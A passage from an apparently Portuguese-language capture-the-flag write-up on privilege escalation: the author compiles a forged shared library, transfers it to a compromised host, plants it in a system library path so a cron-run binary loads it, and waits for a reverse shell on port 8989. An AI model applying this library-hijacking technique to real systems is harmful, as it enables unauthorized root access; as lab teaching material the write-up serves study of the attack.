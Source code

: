 ```bash
gcc -shared -o libgitutils.so libgitutils.o
```

Agora temos nossa biblioteca compartilhada [libgitutils.so](http://libgitutils.so) .

Vamos novamente abrir um servidor python na nossa máquina para passar a biblioteca compartilhada para dentro na máquina que temos shell.

![/assets/chuvinha/Untitled%2024.png](/assets/chuvinha/Untitled%2024.png)

Agora com a nossa biblioteca falsificada dentro da máquina vamos seguir as instruções do [README.md](http://readme.md) e copiar nossa lib falsificada para o diretório das instruções.

Primeira instrução:

```
1. Copy our libgitutils.so library to /lib/x86_64-linux-gnu/libgitutils.so
```

Vamos copiar:

```bash
cp libgitutils.so /lib/x86_64-linux-gnu/libgitutils.so
```

Segunda instrução:

```
2. Install a cronjob that runs /opt/git-monitorer/gitmon every minute
```

Como já alteramos a biblioteca, a cada um minuto o script deve ser rodado, então vamos apenas abrir a porta 8989 da nossa máquina para receber a reverse shell e esperar um minuto.

![/assets/chuvinha/Untitled%2025.png](/assets/chuvinha/Untitled%2025.png)
